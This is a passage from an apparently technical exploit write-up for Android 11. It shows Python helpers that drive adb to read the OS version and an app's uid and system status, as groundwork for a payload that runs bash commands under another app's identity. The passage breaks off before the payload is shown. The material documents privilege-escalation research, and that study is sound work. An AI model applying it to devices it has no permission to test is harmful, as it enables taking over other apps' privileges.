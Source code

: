 ## -[ 0x07 First version of the exploit (Android 11) ]-

### Basic communication with adb

To start automating our process, the first thing we need is to be able to interact programmatically with `adb` using Python, which is the language we'll use in this experiment.

There are several _modules_ that abstract the process of working with adb, however, we decided to simply use the `subprocess` module to interact with `adb`. The function in charge of this process would look like this:

```python
import subprocess

def send_adb_command(command):
    p = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    (child_stdin, child_stdout, child_stderr) = (p.stdin, p.stdout, p.stderr)
    return p.stdout.read().decode("utf-8")
{% endhighlight %}
```

With this, we can find out, for example, the Android version:
```python
{% highlight python linenos %}
android_version = send_adb_command("adb shell getprop ro.build.version.release").strip("\n")
{% endhighlight%}
```

### Extracting the necessary information

With the `send_adb_command` function we can find out the user ID of an application and whether it is privileged or not:
```python
{% highlight python linenos %}
def get_app_uid(app):
    uid = send_adb_command(f"adb shell dumpsys package {app} | grep userId=")
    uid = uid.split("\n")
    _, uid = uid[0].split("=")
    return uid.strip('\n')
		
def is_system_app(app):
    return True if send_adb_command(f"adb shell pm path {app}").find(':/system') > 0 else False
{% endhighlight %}
```

With this data we can build a _payload_.

### Payload

Let's create a function that generates a variable called `payload` and includes all the values we had in our original _payload_. Now, by passing the full name of an application, we’ll get a ready-made _payload_ with the user ID, group, and SELinux context. Additionally, the function also takes as an argument the bash command we want to execute, which will allow us to more easily _play_ with different commands.
